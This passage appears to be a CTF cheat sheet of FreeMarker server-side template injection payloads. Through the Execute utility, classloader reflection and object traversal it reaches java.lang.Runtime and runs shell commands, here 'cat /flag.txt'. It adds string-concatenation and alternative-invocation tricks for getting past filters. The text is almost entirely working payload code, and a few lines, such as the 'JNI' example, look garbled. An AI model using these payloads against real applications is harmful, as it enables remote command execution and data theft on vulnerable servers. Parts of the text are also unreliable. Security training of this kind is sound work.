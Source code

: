 ### Using the Built-in Execute Utility

```
<#assign ex = "freemarker.template.utility.Execute"?new()>
${ex("cat /flag.txt")}
```

### Class Loading

```
${object?api.class.protectionDomain.classLoader.loadClass("java.lang.Runtime").getRuntime().exec("cat /flag.txt")}
```

### Java Reflection

```
<#assign classloader=object?api.class.protectionDomain.classLoader>
<#assign cls=classloader.loadClass("java.lang.Runtime")>
<#assign method=cls?api.methods[6]>
${method.invoke(cls?api.methods[7].invoke(null),"/bin/sh,-c,cat /flag.txt"?split(","))}
```

### Object Traversal for Bypass

```
${object.getClass().getClassLoader().loadClass("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec("cat /flag.txt")}
```

## Bypass Techniques

### String Concatenation

```
<#assign c="java.lang.Runtime"?new().exec("c"+"at /flag.txt")>
```

### Alternative Method Invocation

```
<#assign classloader=1?api.class.protectionDomain.classLoader>
<#assign cls=classloader.loadClass("java.lang.Runtime")>
<#assign r=cls.getRuntime()>
${r.exec("cat /flag.txt")}
```

### Using JNI

```
${Runtime.getRuntime().loadLibrary("path_to_library")}
```

## Practical Approach for CTFs
